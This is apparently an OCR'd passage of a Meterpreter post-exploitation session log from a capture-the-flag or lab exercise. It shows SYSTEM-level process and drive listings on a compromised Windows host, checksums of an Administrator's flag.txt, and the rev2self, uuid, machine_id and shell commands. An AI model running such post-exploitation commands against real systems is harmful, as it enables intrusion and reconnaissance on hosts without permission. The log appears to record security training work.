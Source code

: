 ```
             ces.exe
 3456  808   dfsrs.exe          x64   0        NT AUTHORITY\SYSTEM
 3464  808   LiteAgent.exe      x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentoo
                                                                             ls\LiteAgent.exe
 3484  808   Sysmon.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Sysmon.exe
 3664  412   unsecapp.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wbem\unsec
                                                                             app.exe
 3960  2892  rundll32.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\rundll32.e
                                                                             xe
 4104  808   svchost.exe        x64   0        NT AUTHORITY\SYSTEM
 4496  808   svchost.exe        x64   0        NT AUTHORITY\SYSTEM
 4528  808   svchost.exe        x64   0        NT AUTHORITY\SYSTEM
 4564  808   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE
 4592  740   LogonUI.exe        x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.ex
                                                                             e

meterpreter > show_mount

Mounts / Drives
===============

Name  Type   Size (Total)  Size (Free)  Mapped to
----  ----   ------------  -----------  ---------
C:\   fixed  14.46 GiB     3.21 GiB


Total mounts/drives: 1

meterpreter > getlwd
/root
meterpreter > getwd
C:\Windows\system32

meterpreter > checksum md5 'c:\Users\Administrator\Desktop\flag.txt'
415aa878505c85f197da96735e913c56  c:\Users\Administrator\Desktop\flag.txt
meterpreter > checksum sha1 'c:\Users\Administrator\Desktop\flag.txt'
1efee204f22a548f5162b9da4f7453fbcffac022  c:\Users\Administrator\Desktop\flag.txt

meterpreter > rev2self
meterpreter > uuid
[+] UUID: b071f40c768b4e8a/x64=2/windows=1/2022-11-15T21:06:29Z
meterpreter > machine_id
[+] Machine ID: 01f3c728d1f70b69ab53c6c53840e306

after power off machine

meterpreter > shell
....
```
